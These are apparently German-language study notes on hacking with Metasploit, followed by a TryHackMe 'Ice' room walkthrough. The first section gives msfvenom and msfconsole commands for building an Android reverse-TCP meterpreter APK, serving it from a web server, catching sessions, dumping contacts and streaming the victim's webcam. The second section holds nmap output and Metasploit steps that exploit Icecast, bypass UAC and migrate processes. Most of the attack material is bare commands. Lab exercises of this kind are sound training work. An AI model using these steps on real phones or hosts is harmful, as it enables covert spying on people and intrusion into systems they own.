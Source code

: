 # android hacking with metasploit kali 
#### datum: 13.05.2020
[link](https://www.youtube.com/watch?v=YRm-St0bJhU)
---
###
> 1. es wird eine android applikation erstellt, mit einer einfachen view 
> 2. msfvenom (framework) 
> 2.1. msfpayload
> 2.2. msfencode 	

```
0. [new terminal 0]
1. [0] ifconfig 
2. [0] msfvenom -help 
3. [0] msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.1.23 LPORT=4444 R > /var/www/html/androidApp.apk
4. [0] service apache2 status 
5. [0] msfconsole 
6. [0] use exploit/mulit/handler
7. [0] set payload android/meterpreter/reverse-tcp 
8. [0] show options
9. [0] set LHOST 192.168.1.23 [ip-Virtual Box]
10. [0] show options
11. [0] exploit 
12. [0] background
13. [0] sessions
14. [0] sessions -i 1
15. [0] help
16. [0] app_list
17. [0] dump_contacts
18. [new terminal 1]
19. [1] cat contacts dump 20190915183350.txt
20. [0] webcam_list
21. [0] background
22. [0] exploit (muli/handler)
23. [0] sessions
24. [0] exploit
25. [0] background
26. [0] sessions
27. [0] sessions -i 8
28. [0] help
29. [0] webcam_list
30. [0] shell
31. [0] ls
32. [0] whoiam
33. [0] pwd
```
---
### prof. 
> snap-shot mit der handykamera // stream 
```
0. use exploit/multi/handler
1. set payload android/meterpreter/reverse_tcp
2. set lhost 192.168.0.132
3. show options 
4. exploit 
5. webcam_steam -h // get help
6. webcam_list
7. webcam_stream -d 5 -i 1 // d (duration aufnahmezeit/ index of webcam)
8. [rage quit]
9. cd /home/kali/
10. msfconsole
11. [alles wie vorher]
12. webcam_stream -d 5 -i 1 
13. cp [daten] /var/www/html 
```

---
# ice 
[link room tryhackme]()

## task1 
verbinden

## task 2
> nmap -sC -sV -oN ice.nmap 10.10.87.148
### ergebnis
```
# Nmap 7.80 scan initiated Wed May 13 10:19:06 2020 as: nmap -sC -sV -oN ice.nmap 10.10.87.148
Nmap scan report for 10.10.87.148
Host is up (0.074s latency).
Not shown: 988 closed ports
PORT      STATE SERVICE            VERSION
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  ssl/ms-wbt-server?
|_ssl-date: 2020-05-13T08:20:13+00:00; -2s from scanner time.
5357/tcp  open  http               Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Service Unavailable
8000/tcp  open  http               Icecast streaming media server
|_http-title: Site doesn't have a title (text/html).
49152/tcp open  msrpc              Microsoft Windows RPC
49153/tcp open  msrpc              Microsoft Windows RPC
49154/tcp open  msrpc              Microsoft Windows RPC
49158/tcp open  msrpc              Microsoft Windows RPC
49159/tcp open  msrpc              Microsoft Windows RPC
49160/tcp open  msrpc              Microsoft Windows RPC
Service Info: Host: DARK-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 1h14m57s, deviation: 2h30m00s, median: -2s
|_nbstat: NetBIOS name: DARK-PC, NetBIOS user: <unknown>, NetBIOS MAC: 02:73:37:13:4c:70 (unknown)
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: Dark-PC
|   NetBIOS computer name: DARK-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2020-05-13T03:20:07-05:00
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-05-13T08:20:07
|_  start_date: 2020-05-13T08:13:20

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed May 13 10:21:15 2020 -- 1 IP address (1 host up) scanned in 129.06 seconds
```
1. **3389** <br>
[https://www.cvedetails.com/](https://www.cvedetails.com/)
2. **execute code overflow**
3. **CVE-2004-1561**
> search icecast
> use 0
6. **RHOSTS** 
> setg rhosts 10.10.87.148
7. Video 
[https://www.youtube.com/watch?v=qUQhCrpBEK4](https://www.youtube.com/watch?v=qUQhCrpBEK4)
> use exploit/windows/http/icecast_header <br>
> set rhosts 10.10.87.148 <br>
> exploit <br>
> sessions  <br>
> use /post/multi/recon/local_exploit_suggester <br>
> set sessions 1 <br>
> exploit <br>
> use windows/local/bypassuac_eventvwr<br>
> set session 7 <br>
> set lhost 10.10.83.15 <br>
> getprivs <br>
> migrate -N spoolsv.exe<br>
---
10.10.207.74
### next try

#### lhosts vpn ip adresse 
[]()
> search icecast <br>
> searchsploit icecast
> zwischenablage 2.0.1 (Windows x86) - Header Overwrite (Metasploit) <br>
> internet <br>
> search uac<br>
> use 4<br>
> options <br>
> set payload windows/meterpreter/reverse_tcp<br>
> set lhosts 10.10.207.74<br>
> 